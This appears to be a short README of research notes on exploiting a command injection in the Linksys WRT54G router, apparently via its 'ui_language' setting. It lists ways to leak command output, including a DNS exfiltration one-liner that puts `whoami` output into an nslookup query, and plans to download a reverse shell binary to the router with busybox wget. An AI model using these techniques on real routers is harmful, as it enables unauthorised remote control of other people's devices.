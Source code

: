 # Exploiting Linksys WRT54G


### Leads for leaking command output
- Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```
- Look for file paths that are displayed within the web interface that command output can be written to.
- Use `busybox wget` to download reverse shell binary to the router.


### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Wonders & Thoughts
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
